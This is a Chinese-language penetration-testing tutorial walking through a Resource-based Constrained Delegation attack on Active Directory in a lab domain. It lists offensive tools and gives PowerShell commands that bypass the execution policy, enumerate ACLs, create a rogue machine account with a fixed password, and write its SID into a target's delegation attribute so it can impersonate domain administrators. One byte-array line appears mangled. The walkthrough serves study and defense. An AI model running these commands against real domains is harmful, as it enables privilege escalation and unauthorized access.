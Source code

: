 Resource-based Constrained Delegation  
这个方法原理比较长，可能得单独拿一篇出来讲，这几天看的头都大了。  
攻击前提是需要有一台 win2012 的 DC。因为老版本不支持 RBCD。

tools：

*   [GitHub - Kevin-Robertson/Powermad: PowerShell MachineAccountQuota and DNS exploit tools](https://github.com/Kevin-Robertson/Powermad)
*   [PowerSploit/PowerView.ps1 at dev · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
*   [GitHub - GhostPack/Rubeus: Trying to tame the three-headed dog.](https://github.com/GhostPack/Rubeus)

先设置允许使用脚本。

```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193257-ea2d7e32-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193257-ea2d7e32-464c-1.png)

导入需要的脚本  
powerview 使用这个新版本的。  
[](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)  
查询 DACL 权限: Discretionary Access Control List

```
$AttSID = Get-DomainGroup Users -Properties objectsid | Select -Expand objectsid
Get-DomainObjectACL Pentestlabwin7.pentestlab.com | ?{$_.SecurityIdentifier -match $AttSID}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193259-eb8b8ab2-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193259-eb8b8ab2-464c-1.png)

acl 相关的权限  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193301-eca6ef04-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193301-eca6ef04-464c-1.png)

接下来创建一个新的用户，因为 msDS-allowedToActOnBehalfOfOtherIdentity 策略未安全设置的原因，新的计算机用户可以伪装成域内的管理员。

```
New-MachineAccount -MachineAccount hackerwing -Password $(ConvertTo-SecureString 'wing2019' -AsPlainText -Force)
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193302-ed292640-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193302-ed292640-464c-1.png)

然后就是把用户的 SID 添加到 DC 的 msDS-allowedToActOnBehalfOfOtherIdentity 属性中。

> 安全标识符 (Security Identifier，SID) 是 Windows 操作系统使用的独一无二的，不变的标识符用于标识用户、用户群、或其他安全主体（英语：security principal）. 安全标识符一经产生，不会与全世界任何的安全标识符重复；也不随用户更名而变化。如果删除了用户帐户，然后再创建同名帐户，则产生的安全标识符是不同的

```
$ComputerSid = Get-DomainComputer hackerwing -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
